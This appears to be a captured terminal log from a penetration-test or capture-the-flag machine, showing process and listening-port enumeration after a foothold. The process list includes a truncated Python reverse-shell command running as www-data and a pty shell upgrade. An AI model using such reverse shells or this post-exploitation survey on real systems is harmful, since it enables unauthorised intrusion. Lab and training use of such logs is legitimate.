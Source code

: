 ``` 
root        824  0.0  0.2  28676  2820 ?        Ss   03:30   0:00 /usr/sbin/vsftpd /etc/vsftpd.conf
root        826  0.0  0.6  72296  6384 ?        Ss   03:30   0:00 /usr/sbin/sshd -D
root        827  0.0  0.0  25376   228 ?        Ss   03:30   0:01 /sbin/iscsid
root        828  0.0  0.5  25880  5260 ?        S<Ls 03:30   0:00 /sbin/iscsid
mysql       859  0.0 20.9 1157220 206516 ?      Sl   03:30   0:33 /usr/sbin/mysqld --daemonize --pid-file=/run/mysqld/mysqld.pid
root        882  0.0  0.2  14888  1976 tty1     Ss+  03:30   0:00 /sbin/agetty -o -p -- \u --noclear tty1 linux
root        883  0.0  0.6 288868  6660 ?        Ssl  03:30   0:00 /usr/lib/policykit-1/polkitd --no-debug
root        887  0.0  2.9 326820 29524 ?        Ss   03:30   0:02 /usr/sbin/apache2 -k start
www-data   1899  0.0  2.7 330132 27488 ?        S    06:25   0:00 /usr/sbin/apache2 -k start
www-data   1900  0.0  2.9 332180 29088 ?        S    06:25   0:00 /usr/sbin/apache2 -k start
www-data   1901  0.0  2.5 330124 25008 ?        S    06:25   0:00 /usr/sbin/apache2 -k start
www-data   1903  0.0  3.1 332660 30864 ?        S    06:25   0:00 /usr/sbin/apache2 -k start
www-data  18694  0.0  2.8 332188 27824 ?        S    20:44   0:00 /usr/sbin/apache2 -k start
www-data  18695  0.0  2.8 332180 27636 ?        S    20:44   0:00 /usr/sbin/apache2 -k start
www-data  18697  0.0  2.5 330132 25320 ?        S    20:44   0:00 /usr/sbin/apache2 -k start
www-data  18700  0.0  2.5 330132 25612 ?        S    20:49   0:00 /usr/sbin/apache2 -k start
www-data  18701  0.0  2.8 332188 27964 ?        S    20:50   0:00 /usr/sbin/apache2 -k start
www-data  18707  0.0  2.5 330132 25244 ?        S    20:58   0:00 /usr/sbin/apache2 -k start
root      18811  0.0  0.0      0     0 ?        I    21:25   0:00 [kworker/u256:2]
root      18816  0.0  0.0      0     0 ?        I    21:30   0:00 [kworker/u256:0]
www-data  18818  0.0  0.0   4628   784 ?        S    21:32   0:00 sh -c python3 -c 'import socket,subprocess,os;s=socket.socket(sock
www-data  18819  0.0  1.0  36464 10468 ?        S    21:32   0:00 python3 -c import socket,subprocess,os;s=socket.socket(socket.AF_I
www-data  18820  0.0  0.0   4628   868 ?        S    21:32   0:00 /bin/sh -i
www-data  18821  0.0  0.9  37340  9228 ?        S    21:35   0:00 python3 -c import pty; pty.spawn("/bin/bash")
www-data  18822  0.0  0.3  18508  3336 pts/0    Ss   21:35   0:00 /bin/bash
root      18829  0.0  0.0      0     0 ?        I    21:35   0:00 [kworker/u256:1]
www-data  18923  0.0  0.3  36700  3160 pts/0    R+   21:42   0:00 ps -auxw

www-data@hawk: netstat -an | grep LISTEN
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp6       0      0 :::9092                 :::*                    LISTEN     
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 :::8082                 :::*                    LISTEN     
tcp6       0      0 :::21                   :::*                    LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
tcp6       0      0 :::5435                 :::*                    LISTEN     
unix  2      [ ACC ]     SEQPACKET  LISTENING     15716    /run/udev/control
unix  2      [ ACC ]     STREAM     LISTENING     15377    /run/systemd/private
unix  2      [ ACC ]     STREAM     LISTENING     15387    /run/systemd/journal/stdout
unix  2      [ ACC ]     STREAM     LISTENING     15393    /run/lvm/lvmetad.socket
unix  2      [ ACC ]     STREAM     LISTENING     15639    /run/lvm/lvmpolld.socket
unix  2      [ ACC ]     STREAM     LISTENING     19326    /var/run/dbus/system_bus_socket
unix  2      [ ACC ]     STREAM     LISTENING     19338    /run/uuidd/request
unix  2      [ ACC ]     STREAM     LISTENING     19340    /run/acpid.socket
unix  2      [ ACC ]     STREAM     LISTENING     20877    /var/run/vmware/guestServicePipe
unix  2      [ ACC ]     STREAM     LISTENING     22349    /var/agentx/master
unix  2      [ ACC ]     STREAM     LISTENING     23082    /var/run/mysqld/mysqld.sock
unix  2      [ ACC ]     STREAM     LISTENING     21197    @ISCSIADM_ABSTRACT_NAMESPACE
```
